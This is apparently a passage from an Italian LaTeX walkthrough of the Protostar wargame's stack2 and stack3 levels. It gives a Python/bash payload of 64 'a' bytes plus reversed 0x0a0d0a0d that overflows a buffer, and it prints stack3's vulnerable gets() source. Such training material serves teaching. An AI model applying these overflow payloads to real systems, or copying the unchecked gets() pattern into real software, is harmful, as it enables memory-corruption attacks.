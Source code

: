 L'idea su cui si poggia l'attacco a \texttt{stack2} è identica a quella vista per \texttt{stack1}:
\begin{itemize}
    \item Si costruisce un input di 64 'a' per riempire \texttt{buffer}
    \item Si appendono i 4 caratteri aventi codice ASCII \texttt{0x0d}, \texttt{0x0a}, \texttt{0x0d}, \texttt{0x0a}, al rovescio, per riempire \texttt{modified}
    \item Si invia l'input a \texttt{stack2}
\end{itemize}

Possiamo farlo usando il comando:
\begin{lstlisting}[style=bashstyle]
    export GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")
\end{lstlisting}
Mandiamo in esecuzione stack 2 e verrà stampato il messaggio: \textcolor{red}{you have correctly modified the variable}, vinciamo quindi la sfida.

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # entriamo nella cartella di lavoro
    cd /opt/protostar/bin
    # modifichiamo GREENIE
    export GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")
\end{lstlisting}

\section{Stack 3}
Stack3 esamina le variabili di ambiente e come possono essere impostate, e sovrascrive i puntatori alle funzioni memorizzati nello stack.
Il programma in questione si chiama \textbf{stack3.c} e il suo eseguibile ha il seguente percorso: \textbf{/opt/protostar/bin/stack3}

Il codice sorgente è il seguente
\begin{lstlisting}[style=cstyle]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
}
\end{lstlisting}

